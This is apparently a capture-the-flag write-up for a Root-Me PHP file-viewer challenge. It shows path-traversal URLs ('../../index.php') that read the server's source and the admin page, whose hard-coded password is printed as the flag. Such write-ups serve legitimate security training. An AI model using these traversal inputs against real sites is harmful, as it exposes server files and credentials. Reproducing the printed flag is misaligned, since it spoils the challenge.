

here we can see we can access files, for example `c_bible.txt`, by this way: 
```
http://challenge01.root-me.org/web-serveur/ch16/?files=coding&f=c_bible.txt
```

Let's try to get `index.php`, using `LFI`:
```
http://challenge01.root-me.org/web-serveur/ch16/?files=coding&f=../../index.php
```


okay, this is the source code:
```php
<?php
// LFI
$authorized_dir=array('esprit', 'archives', 'coding', 'sysadm', 'crypto', 'reseau');
$files_dir="files";
if (isset($_GET["files"])) $files=$_GET["files"];
else if (!isset($_GET["files"]) || !in_array($files,$authorized_dir)) $files="apps";

$aff= '<html>
       <body>
	  <h1>File viewer v 0.01</h1><span id="mnenu"/>';
if (file_exists($files_dir)){
    $d=opendir($files_dir);  
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= "&nbsp;|&nbsp;<span><a href=\"?files=$file\">";
	      if ($file==$files) $aff.= "<b>$file</b>";
	      else $aff.= "$file";
	      $aff.= "</a></span>";
	  }
    }
    $aff.="&nbsp;|<span style='text-align: right; float:right;'>Connected as : <b>guest</b>&nbsp;|&nbsp;<a href=\"admin/\">admin</a></span><br/><hr/>";
    closedir($d);
}

$full_path=realpath($files_dir."/".$files);
if (file_exists($full_path)){
    $aff.='<table id="content">';
    $aff.='<tr><td style="vertical-align: top;">';

    $d=opendir($full_path);
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= '<a href="?files='.$files."&f=".$file.'" >'.$file.'</a><br/>';
	  }
    }
    $aff.='</td><td style="vertical-align: top;">';
    if (isset($_GET["f"]) && $_GET["f"]!=""){
        $lfi_path=$full_path."/".$_GET["f"];
        $secured_path=realpath($lfi_path);
        $aff.= "<h3>File : ".htmlentities($_GET["f"])."</h3>";
        $aff.= "<hr/><pre>";
        $aff.= htmlentities(file_get_contents($secured_path));
        $aff.= "</pre><hr/>";
    }
    $aff.='</td></tr></table>';
}

$aff.="</body></html>";
echo $aff;
?>
```

Okay, let's try this:
```
http://challenge01.root-me.org/web-serveur/ch16/?files=coding&f=../../../admin/index.php
```
We enter the `admin` folder, and then looking for `index.php`, which should exist, because we do get `401` when trying to access `/admin`.

```php
<?php

function http_digest_parse($txt)
{
    $needed_parts = array('nonce'=>1, 'nc'=>1, 'cnonce'=>1, 'qop'=>1, 'username'=>1, 'uri'=>1, 'response'=>1);
    $data = array();
    $keys = implode('|', array_keys($needed_parts));
 
    preg_match_all('@(' . $keys . ')=(?:([\'"])([^\2]+?)\2|([^\s,]+))@', $txt, $matches, PREG_SET_ORDER);

    foreach ($matches as $m) {
        $data[$m[1]] = $m[3] ? $m[3] : $m[4];
        unset($needed_parts[$m[1]]);
    }

    return $needed_parts ? false : $data;
}


function auth($realm){
    header('HTTP/1.1 401 Unauthorized');
    header('WWW-Authenticate: Digest realm="'.$realm.'",qop="auth",nonce="'.uniqid().'",opaque="'.md5($realm).'"');
    die($realm);
}


$realm = 'PHP Restricted area';
$users = array('admin' => 'OpbNJ60xYpvAQU8');


if (empty($_SERVER['PHP_AUTH_DIGEST'])) {
  auth($realm);
}

if (!($data = http_digest_parse($_SERVER['PHP_AUTH_DIGEST'])) || !isset($users[$data['username']]))
    auth($realm);


$A1 = md5($data['username'] . ':' . $realm . ':' . $users[$data['username']]);
$A2 = md5($_SERVER['REQUEST_METHOD'].':'.$data['uri']);
$valid_response = md5($A1.':'.$data['nonce'].':'.$data['nc'].':'.$data['cnonce'].':'.$data['qop'].':'.$A2);

if ($data['response'] != $valid_response)
    auth($realm);

echo "<html>
	<head></head>
	<body>
	    <h3>You could use this password to validate the challenge !</h3>
	</body>
      </html>";

?>
```
And we got the password!

**Flag:** ***`OpbNJ60xYpvAQU8`***
